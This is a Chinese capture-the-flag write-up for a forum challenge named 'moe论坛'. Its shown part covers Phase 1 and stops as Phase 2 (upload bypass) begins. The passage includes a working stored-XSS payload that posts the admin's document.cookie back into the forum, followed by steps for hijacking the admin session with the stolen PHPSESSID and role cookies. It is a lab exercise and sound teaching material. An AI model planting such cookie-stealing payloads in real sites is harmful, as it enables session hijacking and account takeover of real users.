


# moe论坛 - WriteUp

> 本题知识点：  
> :star: 基本的存储型XSS  
> :star::star: 文件上传后缀名绕过  
> :star::star::star::star: 复杂路径爆破  
> :star::star::star::star: PHP一句话木马及 webshell  
> :star::star::star::star::star: suid提权
>
> 综合难度： :star::star::star::star::star::star::star:

## Phase 1 ~ Stored XSS

### 探索

打开环境，一个登录页显示在眼前。想要进入，必须要有账号，于是随便注册一个。

  
~~！？⑨⑨？！~~ ~~越共探头~~

注册后，检查 cookie，发现使用 `PHPSESSID` 来保存会话。

尝试发帖，很顺利地发送了。



同时注意到一个很关键的点：**admin账户会经常访问主页！**  
那么，admin在访问主页时**很有可能会执行页面上的\<script>标签中的代码！**

于是想到使用 XSS 攻击。

### XSS

跨站脚本攻击，Cross-Site Scripting (XSS，为了防止和层叠样式表 **C**ascading **S**tyle **S**heet 混淆)，是一种常见的 Web 攻击手段。  
通过向页面代码中插入 `<script>` `` `<iframe>` 等标签来实现在其他用户的页面中执行恶意代码。

简单测试了一下， `<script>` 标签可以直接执行，于是编写获取 cookie 的 payload。

```html
<script>
// 提交的请求格式是经典的 urlencode 格式（如下）
// title=xxx&content=xxx
// 所以可以直接创建一个 form 节点来将获取的 cookie 通过发帖展示出来
form = document.createElement('form');
title = document.createElement('input');
content = document.createElement('input');
title.name = 'title';
content.name = 'content';
title.value = 'session';
content.value = document.cookie;
form.action = 'http://' + window.location.host + '/new_post.php';
form.method = 'POST';
form.appendChild(title);
form.appendChild(content);
document.body.appendChild(form);
form.submit();
</script>
```

这里我们通过 `document.cookie` 尝试获取admin的cookie，并发送一个假的发帖请求，将cookie的内容发出来。

提交后，我们瞬间从这个帖子跳转到了“我们”发的包含自己cookie的帖子，说明XSS注入成功了。


请注意你的浏览器地址栏，这里用了 `id` 参数来表示你的帖子的编号。例如下面这个 url

```
http://127.0.0.1:60804/view.php?id=4
```

接下来你要做的不是去主页，而是拿起你的水杯去泡杯茶，或者[打开B站看看有意思的内容](https://bilibili.com/video/BV1GJ411x7h7 "吃一堑吃一堑吃一堑")。

等上几分钟后，再返回主页，你会发现你的新帖的 id 不是你的上一个帖子的 id + 1，而是跳过了几个数，例如：

```
http://127.0.0.1:60804/view.php?id=11
```

不难想到，中间的帖子是 admin 发送的，这说明我们的攻击已经拿到了 admin 的 cookie！

接下来，我们只需要多次访问主页，通过不断发帖把包含XSS攻击的帖子**挤到下一页去**，这样就可以正常访问到主页并查看admin发出的cookie。

将最新的 `PHPSESSID` 和 `role` 拿来替换掉我们自己的，再次刷新，便成功登上了admin账户！

  
~~没想到琪露诺也能混上管理员的身份~~

至此，阶段1胜利！（是的你没看错这只是第一阶段）

## Phase 2 ~ Upload Bypass

### 后台

拿到 admin 之后，页面上多出了一个 `管理后台` 按钮。

